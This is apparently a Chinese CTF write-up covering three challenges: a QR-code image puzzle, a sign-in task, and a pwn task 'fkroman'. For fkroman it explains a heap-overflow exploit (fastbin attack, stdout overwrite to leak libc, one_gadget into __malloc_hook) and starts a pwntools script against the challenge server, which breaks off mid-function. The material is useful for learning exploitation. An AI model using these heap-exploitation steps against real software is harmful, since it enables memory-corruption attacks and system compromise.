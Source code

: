 ## ewn

下载后发现有一堆 small 和 big 结尾的图片文件，猜测是个二维码，于是先尝试把 big 结尾的拖进 photoshop 像小时候玩拼图一样拼好扫出来就是 flag。

![ewn](./img/2019-gongce-1.png)

## 签到

C-C C-V

## fkroman

漏洞点在 edit 函数未检查申请堆块大小造成堆溢出。

利用思路如下：

1. 通过修改块 size>0x60 使之符合 unsortedbin 大小，在修改之前先将此块放入 fastbin 中，这样我们就在块内获得了一个 libc 地址

2. 修改`_IO_2_1_stdout_`结构体中的 flag 域，通过 fastbin attack 覆写 stdout 泄露 libc 地址，

3. 向`__malloc_hook`写入 one_gadget

脚本如下：

```python
# -*- coding: utf-8 -*-
#!/usr/bin/env python2
from pwn import *

p = remote('121.40.246.48',9999)
libc = ELF('libc-2.23.so')

def alloc(index,size):
    p.recvuntil("choice:")
    p.sendline("1")
    p.recvuntil(":")
    p.sendline(str(index))
    p.recvuntil(":")
    p.sendline(str(size))

def edit(index,size,content):
```